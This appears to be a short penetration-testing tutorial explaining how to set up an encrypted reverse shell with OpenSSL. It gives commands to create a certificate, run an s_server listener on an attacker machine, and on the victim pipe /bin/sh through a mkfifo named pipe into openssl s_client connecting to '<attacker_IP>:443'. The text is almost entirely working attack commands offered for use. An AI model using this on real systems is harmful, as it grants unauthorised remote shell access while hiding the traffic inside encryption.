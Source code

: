 # openSSL reverse shell

What we need to do first, is to generate an SSL certificate key pair for our listener on the attacker machine. We can do that with the following command:

```text
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

This will create two files. A “key.pem” and “cert.pem” file. We’ll need those for our listener.

Next, we can start up our listener on the attacker machine using the openssl s\_server command while specifying our .pem files we created:

```text
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

That will start up an openSSL listener with our certificate and associated key on port 443.

Now, on our target system, we create our mkfifo named pipe as a file called “x” in /tmp in conjunction with an openssl s\_client –quiet –connect command that will connect back to our attacker machine, and give us a shell on the victim host \(over SSL\):

```text
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <attacker_IP>:443 >/tmp/x; rm /tmp/x
```



